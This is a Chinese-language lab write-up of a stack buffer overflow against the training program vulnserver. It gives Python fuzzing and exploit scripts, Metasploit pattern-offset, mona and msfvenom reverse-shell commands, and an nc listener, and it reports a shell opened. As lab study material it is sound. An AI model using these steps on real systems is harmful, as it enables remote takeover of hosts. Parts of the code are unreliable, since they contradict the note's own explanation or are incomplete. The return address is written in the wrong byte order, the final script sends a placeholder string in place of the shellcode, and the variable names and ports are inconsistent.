







#  vulnserver缓冲区移除的笔记

## 环境安装 

-- windows环境 ：win7 32位

程序：ImmunityDebugger1.85.zip 、 mona.py.zip、vulnserver服务

要将 mona.py加入到
`Immunity Inc\Immunity Debugger\PyCommands` 目录下
这样 `debuger` 就可以执行插件 -- 之后会用到


## 文件运行

先在win7 运行 `vulnserver`服务， 然后打开debugger。





选中后打开，点击▶按钮





我们先看如何让程序溢出

先编写一个 fuzz 的程序：
```py
#!/usr/bin/python
# -*- encoding: utf-8 -*-
import socket
import sys

#创建一个缓冲区数组,同时递增它们

buffer=["A"] #输入A
counter=100
while len(buffer) <= 30:
    buffer.append("A"*counter)
    counter=counter+200

for string in buffer:
    print ("Fuzzing PASS with %s bytes"%len(string))
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    connect=s.connect(('127.0.0.1',0))#目标ip和端口号
    s.send(string)
    s.close()

```
通过不断输入a康康什么时候会溢出

我们把目标IP和端口号修改后执行以下脚本


可见A输入到5900停  


可见内存和CPU中的存储地址全部变成了A的形状👌

使用msf自带的不重复数值

```bash
cd /usr/share/metasploit-framework/tools/exploit/
./pattern_create.rb -l 5700
```



然后选中这些数值加入到buffer中

```py
#!/usr/bin/python
# -*- encoding: utf-8 -*-
import socket
import sys

#创建一个缓冲区数组,同时递增它们

buffer=["Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6Ek7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep9Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0Fq1Fq2Fq3Fq4Fq5Fq6Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5Ft6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3Gc4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk6Gk7Gk8Gk9Gl0Gl1Gl2Gl3Gl4Gl5Gl6Gl7Gl8Gl9Gm0Gm1Gm2Gm3Gm4Gm5Gm6Gm7Gm8Gm9Gn0Gn1Gn2Gn3Gn4Gn5Gn6Gn7Gn8Gn9Go0Go1Go2Go3Go4Go5Go6Go7Go8Go9Gp0Gp1Gp2Gp3Gp4Gp5Gp6Gp7Gp8Gp9Gq0Gq1Gq2Gq3Gq4Gq5Gq6Gq7Gq8Gq9Gr0Gr1Gr2Gr3Gr4Gr5Gr6Gr7Gr8Gr9Gs0Gs1Gs2Gs3Gs4Gs5Gs6Gs7Gs8Gs9Gt0Gt1Gt2Gt3Gt4Gt5Gt6Gt7Gt8Gt9Gu0Gu1Gu2Gu3Gu4Gu5Gu6Gu7Gu8Gu9Gv0Gv1Gv2Gv3Gv4Gv5Gv6Gv7Gv8Gv9Gw0Gw1Gw2Gw3Gw4Gw5Gw6Gw7Gw8Gw9Gx0Gx1Gx2Gx3Gx4Gx5Gx6Gx7Gx8Gx9Gy0Gy1Gy2Gy3Gy4Gy5Gy6Gy7Gy8Gy9Gz0Gz1Gz2Gz3Gz4Gz5Gz6Gz7Gz8Gz9Ha0Ha1Ha2Ha3Ha4Ha5Ha6Ha7Ha8Ha9Hb0Hb1Hb2Hb3Hb4Hb5Hb6Hb7Hb8Hb9Hc0Hc1Hc2Hc3Hc4Hc5Hc6Hc7Hc8Hc9Hd0Hd1Hd2Hd3Hd4Hd5Hd6Hd7Hd8Hd9He0He1He2He3He4He5He6He7He8He9Hf0Hf1Hf2Hf3Hf4Hf5Hf6Hf7Hf8Hf9Hg0Hg1Hg2Hg3Hg4Hg5Hg6Hg7Hg8Hg9Hh0Hh1Hh2Hh3Hh4Hh5Hh6Hh7Hh8Hh9
"]

'''
counter=100
while len(buffer) <= 30:
    buffer.append("A"*counter)
    counter=counter+200
'''
for string in buffer:
    print ("Fuzzing PASS with %s bytes"%len(string))
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    connect=s.connect(('127.0.0.1',0))#目标ip和端口号
    s.send(string)
    s.close()

```


可见在 EIP 中数据为 `386F4337`

因为在内存中的保存形式与我们在常规阅读的时候不一样所以我们在记录的时候应该是
`37 43 6F 38`  

将得到的数值 : `386F4337` 放入到程序

```
pattern_offset.rb -q 386F4337
```


可以查看到cpu所占据的字节前面有 `2003` 位数 说明 `386F4337` 是第2004位。

可以修改一下2003后面填充 4个b ，然后填充3000多个c
尝试一下

```php
better = ['A'*2003 +'B'*4+'C'*3000]
```
我们再次向目标使用脚本



可见文件中

EIP中被完美存入了4个 `B` 

这时候找一个跳转 `EIP` 的DLL来让内存执行跳转到C的指令

这时候我们就要使用 `mona` 插件使用查找dll,我们在下面输入

`!mona modules` 

我们要查找的目标为： 
第一个值为Rebase表示重启后是否会改变地址、False即不改变；
SafeSEH、ASLR、NXCompat这三项都是Windows相关的安全机制；全都找false的，

OS Dll表示是否是OS自带的库。即前四列选False，最后一列选True。 也可以是false，不强求为true。


我们发现，这个essfunc.dll是可以搞点东西的。

所以可以挑出上图选中的那些模块逐一尝试，然后进一步确认其是否有 `JMP ESP` 指令。

先将汇编指令 `jmp esp` 转换成十六进制的ASCII码，

`到Kali的/usr/share/metasploit-framework/tools/exploit` 目录运行

```bash
nasm_shell.rb 
jmp esp   -- FFE4
```

我们在下方输入
```bash
!mona find -s "\xff\xe4" -m essfunc.dll
```


发现mona插件找到9个，随便点击一个进去查看，然后右键Disassemble反汇编。

我们选择第一个，右键复制地址。

`625011af` 因为是16进制所以在每两位数前面加 `\x` 就可以了。




--- 

这是第二种方法。

点击查看Memory map：


一个绕过DEP的方法：若模块支持DEP机制（数据执行保护），则在Memory map中需查看Access权限列来确认该指令对应的列值为“R E”即可读可执行。

---

或者直接使用 `FFE4` 的地址给 EIP `625011af`

吧B的输入替换成 `\x62\x50\x11\xaf`

```
better = 'A'*2003+'\x62\x50\x11\xaf'+'C'*400
```
当EIP中跳转到你写的 `625011af`就行了，接着按F7运行下一步，可以查看到左上侧框内的内容跳转到ESP寄存器了。

我们选择payload有两种选择：

bind与reverse即正向连接与反向连接的区别：

`正向连接` 是攻击者让受害者机器开启一个端口，然后等待攻击者来连接该目标端口，但通常在受害者机器的网络边界都会存在防火墙，会过滤掉外部发起的非常用端口的连接从而使攻击者的连接失效；

而 `反向连接` 则是攻击者让受害者机器主动连接攻击者机器的端口，而不是让其自己开启端口等待连接，从而绕过防火墙的过滤。


我们接着还要检查payload是否含有坏字节，也就是，`无法被写入到内存中`的字节。


- 坏字节列表
```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

我们来检测一下是否存在坏字节，把 buffer中的，`c` 替换成上面的 `badchars` 再次输入到脚本中运行。

可见文件中有一个坏字节 

"\x00"
使用msf软件生成一个返回连接payload，并且去掉坏字节 `\x00`
```
msfvenom -p windows/shell_reverse_tcp LHOST= 自己IP LPORT=自己的端口 -f c -a x86 --platform windows -b "\x00"
```
把文件 buffer 中的 `C` 替换成生成的文件


将 `shellcode` 写入脚本中执行

\x90指的是nop，这里填写8个字节是为了防止ESP寄存器起始的字节丢失而造成shellcode不能正常执行的情况。


```py
#!/usr/bin/python
# -*- encoding: utf-8 -*-

import socket
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

#	!mona modules
#       !mona find -s "\xff\xe4" -m xxx.dll

#msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= -f c -a x86 --platform windows -b "\x00"

nops = "\x90" * 16

buffer = 'A' * 2003 + '\x62\x50\x11\xaf'+'payload'
try:
    s.connect(('127.0.0.1',0))
    s.send('TRUN /.:/' + buffer)
    print "\nDone!."
except:
    print "Could not connect the port!"

```


Kali开启nc监听自己的端口：
```
nc -lp xxxx 
```


没有问题，shellcode成功执行，反弹连接了shell。

